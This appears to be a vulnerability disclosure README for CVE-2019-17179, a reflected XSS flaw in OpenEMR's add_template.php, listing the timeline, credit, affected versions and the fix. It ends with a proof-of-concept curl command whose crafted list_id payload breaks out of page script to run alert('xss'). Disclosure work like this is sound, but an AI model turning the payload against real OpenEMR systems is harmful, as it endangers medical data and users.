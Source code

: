 # CVE-2019-17179
XSS in `library/custom_template/add_template.php` in
OpenEMR before 5.0.2.1 allows a malicious user to
execute code in the context of a victim's browser via a crafted `list_id` query parameter.

## Timeline
* **Discovered:** October 1, 2019
* **Pull Request Issued:** October 1, 2019
* **Reported:** October 2, 2019
* **OpenEMR merged pull Request:** October 2, 2019
* **CVE ID issued:** October 4,  2019
* **OpenEMR Release:** October 10, 2019 (5.0.2.1)

## Credit
Will Porter, Lodestone Security (https://www.lodestonesecurity.com/)

## Version Details
**Fixed-In Version:** 5.0.2.1

**Affected Versions:**
* 4.1.0
* 4.1.1
* 4.1.2
* 4.1.2.3
* 4.1.2.6
* 4.1.2.7
* 4.2.0
* 4.2.1
* 4.2.2
* 5.0.0
* 5.0.0.5
* 5.0.0.6
* 5.0.1
* 5.0.1.1
* 5.0.1.2
* 5.0.1.3
* 5.0.1.4
* 5.0.1.5
* 5.0.1.6
* 5.0.1.7
* 5.0.2

## POC Exploit
Assuming OpenEMR is running on `localhost`
```
curl "http://localhost/openemr/library/custom_template/add_template.php?list_id=1}});}}};alert(%27xss%27);function%20derp(){if%20(true){if(true){%20$.ajax({type:%22POST%22,data:{tempateid:%201"
```
